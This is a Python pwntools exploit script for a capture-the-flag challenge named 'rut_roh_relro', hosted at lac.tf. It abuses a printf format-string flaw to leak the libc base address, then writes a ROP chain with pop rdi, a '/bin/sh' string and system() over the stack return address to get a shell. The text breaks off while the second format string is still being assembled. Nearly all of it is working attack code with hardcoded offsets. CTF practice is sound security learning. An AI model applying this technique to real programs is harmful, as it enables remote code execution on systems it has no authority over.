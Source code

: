 ```

from pwn import *

if __name__ == '__main__':
    debug = True

    if debug:
        p = gdb.debug('./rut_roh_relro', '''
            set follow-fork-mode child
            b main
            b *main+179
            c
        ''')
        
    else:
        p = remote('lac.tf', 31134)

    # use first printf to leak libc base
    # use second printf to do ROP (system + binsh)

    if debug:
        fmt_str = b'%lx.%15$lx' # %27$lx == ptr to _start
    else:
        fmt_str = b'%lx.%5$lx'

    print(p.recvuntil(b'post?').decode())
    p.sendline(fmt_str)

    print(p.recvuntil(b'post:\n').decode())
    
    output = p.readline().decode().strip()
    LIBC_BASE, RIP = list(map(lambda x: int(x, 16), output.split('.')))
    # _IO_2_1_stdout_+131

    if debug:
        LIBC_BASE -= 1816547
        RIP += 0x18 # leak + 0x18 == address of return address on stack
        BINSH = LIBC_BASE + 0x18052c
        SYSTEM = LIBC_BASE + 0x44af0
        POP_RDI = LIBC_BASE + 0x23a5f
    else:
        LIBC_BASE -= (131 + 0x1bf6a0)
        RIP += 0x18
        BINSH = LIBC_BASE + 0x18a152
        SYSTEM = LIBC_BASE + 0x048e50
        POP_RDI = LIBC_BASE + 0x26796

    print('libc base:' + hex(LIBC_BASE))
    print('binsh: ' + hex(BINSH))
    print('system: ' + hex(SYSTEM))
    print('rip: ' + hex(RIP))

    tmp = f'%{str(POP_RDI&0xffff)}x%36$hn'.encode()
    fmt_str = tmp
    tmp_len = (16 - len(tmp))
    fmt_str += tmp_len * b'A'

    # take num of chars written so far, then print however many needed to overflow short to zero
    written_so_far = (POP_RDI&0xffff)
    tmp_len += (16 - len(str(0x10000-written_so_far))) - 2 # this is the extra padding from the A's and the %[...]x
    tmp = f'%{str(0x10000-written_so_far-tmp_len)}x'.encode() #tmp_len=13
    fmt_str += tmp
```